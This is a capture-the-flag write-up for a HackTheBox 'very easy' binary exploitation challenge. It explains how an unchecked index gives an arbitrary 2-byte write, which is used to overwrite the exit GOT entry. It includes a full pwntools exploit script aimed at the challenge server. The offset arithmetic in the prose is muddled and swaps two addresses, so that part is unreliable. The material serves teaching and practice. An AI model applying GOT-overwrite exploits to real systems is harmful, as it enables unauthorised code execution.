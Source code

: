 ```yaml
---
title: "Great Old Talisman Challenge Writeup: Memory Vulnerability - HackTheBox University CTF 2023: Brains & Bytes"
layout: post
author: Jorge Moreno
---
```


This challenge is part of the event [HackTheBox University CTF 2023: Brains & Bytes](../htb-bb-2023-ctf)

## Challenge Description

---

> Zombies are closing in from all directions, and our situation appears dire! Fortunately, we've come across this ancient and formidable Great Old Talisman, a source of hope and protection. However, it requires the infusion of a potent enchantment to unleash its true power.
> 

Challenge Author(s): w3th4nds \
Category: **Binary Explotation**  
Difficulty: **Very Easy**

## Challenge Solution

---

First, we check the file with ``file`` and ``checksec`` commands:

We can see it is dinamically linked 64-bit binary. With canary (stack protector) and the No eXecute bit so we can’t use shellcode to pwn this challenge.

The first thing we see after executing the vulnerable binary is the following text:

![Untitled](images/great-old-talisman/Untitled.png)

It prompts us for a number 1 or 0. After that it receives an input of 2 bytes from stdin.

Lets begin with with the decompiling.

```c
void main(void)

{
  long in_FS_OFFSET;
  int option;
  undefined8 canary;
  
  canary = *(undefined8 *)(canary + 0x28);
  setup();
  banner();
  printf(
        "\nThis Great Old Talisman will protect you from the evil powers of zombies! (...) \n>> "
        );
  __isoc99_scanf("%d",&option);
  printf("\nSpell: ");
  read(0,talis + (long)option * 8,2);
                    /* WARNING: Subroutine does not return */
  exit(0x520);
}
```

The main function reads from stdin the option and then uses it to store the 2 bytes that we send it.

```c
read(0,talis + (long)option * 8,2);
```

Reads 2 bytes and stores it in the address of ``talis + (option * 8)``. This line is vulnerable to arbitrary write, because as we can see there are not limits inside the integer that we can send to the program. So we could overwrite any address we want with an arbitrary (2 byte long) value. 

In this case we can see that there is also a function called ``read_flag()`` that prints the flag to us.

In the assembly code for ``main()`` function we can see that the next function called right after ``read()`` is ``exit()``

![Untitled](images/great-old-talisman/Untitled%201.png)

With the ``dump qword`` command from ``gdb-pwndbg`` we check the address of ``talis``.

![Untitled](images/great-old-talisman/Untitled%202.png)

And ``read_flag()`` with info fun.

![Untitled](images/great-old-talisman/Untitled%203.png)

We can check the ``exit@GOT`` function with Ghidra:

![Untitled](images/great-old-talisman/Untitled%204.png)

So we could maybe overwrite the exit function last 2 bytes with the bug we saw before.

To do this we have to calculate the offset and get a number that we can send to the program that after being multiplicated by 8 and added to **talis** is the address of **exit.**

``0x404080 - 0x4040a0 = -32``

We know that it multiplicates it by 8 so we can send -4. That way it will store the 2 bytes that we send at ``0x404080 + (-4*8) = 0x4040a0 (exit.got.plt)`` 

Now we send the last two bytes of the ``read_flag()`` function address ``\x5a\x13`` and we can grab our flag.

## Full Script

---

{% highlight python %}
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF(args.EXE or './chall', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote("94.237.48.55", 56734)
    #nc 94.237.48.55 56734
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

exit_got = 0x404080
talis = 0x4040a0 

# Escribo \x5a\x13 en 0x404080 + (0x404080 - 0x4040a0)
# Le pasamos primero option = -0x20 = -32
# Le pasamos -4 porque el read multiplica option * 8. 
# Le pasamos los 2 bytes de la direccion y lo tira

io = start()

io.sendlineafter(b'>>', b'-4')
io.recvuntil(b':')
io.send(b'\x5a\x13')

io.interactive()
{% endhighlight %}


**FLAG - HTB{th4nk_G0T_w3_h4v3_th15_t4l15m4n}**
